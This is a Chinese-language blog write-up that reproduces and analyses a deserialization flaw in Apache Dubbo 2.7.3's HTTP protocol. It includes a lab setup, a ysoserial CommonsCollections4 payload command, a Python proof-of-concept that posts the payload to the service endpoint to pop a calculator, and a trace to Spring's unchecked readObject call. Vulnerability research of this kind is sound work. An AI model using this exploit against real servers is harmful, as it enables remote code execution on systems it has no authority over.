









### 0x01 前言

这又是一个反序列化案例，其实没什么新奇的东西，本文只是记录一下我的分析过程。顺便认识一下apache dubbo

Apache dubbo是一个是基于Java的高性能开源RPC框架。它支持dubbo，http,rmi,hessian等协议。本次问题出现在dubbo开启http协议后，会将消费者提交的request请求，在无安全校验的情况下直接交给了spring-web.jar进行处理，最终request.getInputStream()被反序列化,故存在反序列化漏洞

### 0x02 复现
#### 复现环境：
- Windows 10
- jdk 11
- zookeeper 3.5.7
- dubbo 2.7.3
- commons-collections 4.0
  
#### 复现细节
这个漏洞要是黑盒利用的话还是有难点的，那就是要知道远程对象的路径是多少，在不知道这个路径的情况下是不能够利用的，所以这个漏洞是写不了通用poc的。

我们用官方案例搭建测试环境：https://github.com/apache/dubbo-samples/ ，选择其中的dubbo-samples-http案例，这个就是基于http协议的远程对象调用的案例。案例是基于maven的，所以只要用idea打开项目，会自动帮我们下载对应的依赖。注意，由于官方的案例使用的dubbo版本是不存在漏洞的，所以我们需要修改案例中的pom.xml文件，将dubbo的版本修改为`2.7.3`:



除此之外，为了弹出计算器，我们手动添加一下commons-collections4.jar到pom文件中：

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
```

注： 还有，可能zookeeper启动会占用端口8080与2181，所以，我们还需要修改http_provider.xml中的http端口：



当然，除了各种案例中所需的依赖，dubbo还需要zookeeper，这个也是需要我们自行安装的，下载地址：https://zookeeper.apache.org/releases.html

然后依次运行zookeeper,provider,在Provider启动过后，我们可以给consumer设置代理，然后用burp抓一下请求包，可以看到抓包内容如下：



可见实际上是向` /org.apache.dubbo.samples.http.api.DemoService`接口发送了一个post请求，而且发送的是序列化的数据，可以看到序列化数据的特征值：



然后我们利用ysoserial工具生成一个commonscollections4的payload，命令如下：

`java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections4 "calc.exe" > payload.ser`

然后简单写一个python脚本发送该payload到对应的接口：

```python
import requests
# 本地测试的poc
# 地址请自行修改
url = " http://169.254.203.5:8181/org.apache.dubbo.samples.http.api.DemoService"
headers = {
    "Content-Type": "application/x-java-serialized-object"
}
with open("./dubbo.ser", "rb") as file:
    payload = file.read()
requests.post(url, data=payload, headers=headers, timeout=3, verify=False)
```

运行该poc,就会触发弹出计算器了：



### 0x04 漏洞分析

其实我在写这篇文章之前是看了别人的分析文章的，大概知道了就是一个POST请求的事情，然后我在自己分析的时候就在想这个post请求一定是提交到某个spring应用去了，然后我就翻了下jar包，发现有一个spring-web.jar，然后随便找了一下这个jar中的类，可以看到比较值得怀疑的文件夹：



然后翻了下这两个文件夹,最终觉得这个接口可能是处理http请求有关（毕竟命名已经这么赤裸裸了）:



点进去，使用IDEA可以直接右键点击接口名，然后find implementations



可以找到上图中圈起来的那个实现类，这个类也是最可疑的是吧，然后跟进去看一眼：



然后我看到这几个方法，就知道确实是这里了（毕竟之前已经看过其他分析文章了），然后下了几个断点，发送了一下poc,成功触发了断点。这次就是这么幸运的捕捉到了漏洞的触发链23333.

上述只是我个人在捕捉漏洞利用链的一个记录...

最终反序列化的触发是在上图中的46行的`doReadRemoteInvocation`函数内，函数实现如下：

```java
    protected RemoteInvocation doReadRemoteInvocation(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        Object obj = ois.readObject();
        if (!(obj instanceof RemoteInvocation)) {
            throw new RemoteException("Deserialized object needs to be assignable to type [" + RemoteInvocation.class.getName() + "]: " + ClassUtils.getDescriptiveType(obj));
        } else {
            return (RemoteInvocation)obj;
        }
    }
```

可以看到直接执行了`ois.readObject()`，而ois我们往上回溯一下来源：`ois=this.createObjectInputStream(this.decorateInputStream(request, is))`,而createObjectInputStream就是把一个inputStream正确的包装成ObjectInputStream,而decorateInputStream方法实现如下：

```java
    protected InputStream decorateInputStream(HttpServletRequest request, InputStream is) throws IOException {
        return is;
    }
```

直接返回了第二个参数的值，那么第二个参数的值是多少呢？也就是is变量是多少呢？就是`request.getInputStream()`,其实就是我们post发送的值。所以，用户在知道远程对象接口的情况下，发送一个恶意的序列化数据，就可以攻击服务器


### 0x05 其他

这篇文章就单纯是一个记录，没有着重讲解整个利用链的细节，欲进一步了解利用链的细节，可以看看其他师傅的文章：

https://mp.weixin.qq.com/s/CMA79NyeZN2e_nSxj8L-wQ

这篇文章的分析流程就比较中规中矩了，很nice


